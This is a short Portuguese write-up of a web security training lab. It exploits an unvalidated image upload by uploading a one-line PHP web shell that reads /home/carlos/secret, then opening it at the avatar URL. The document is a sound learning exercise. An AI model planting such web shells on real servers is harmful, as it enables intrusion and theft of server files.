

# Lab: Remote code execution via web shell upload

## Enunciado (traduzido)
Este lab contém uma função de upload de imagem vulnerável. Ela não realiza nenhuma validação nos arquivos que os usuários enviam antes de armazená-los no sistema de arquivos do servidor.

Para resolver o lab, faça upload de uma web shell básica em PHP e use-a para exfiltrar o conteúdo do arquivo `/home/carlos/secret`. Envie esse segredo usando o botão fornecido no banner do lab.

Você pode logar na sua própria conta usando as credenciais: `wiener:peter`

## O que fiz

Para resolver, primeiro fizemos login e, no campo de upload de imagem, enviamos um arquivo `.php` com o seguinte conteúdo:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

No lugar onde a imagem seria carregada, conseguimos acessá-la:



Acessando a URL `…net/files/avatars/foto.php`.

---
[⬅ Voltar](../../../README.md)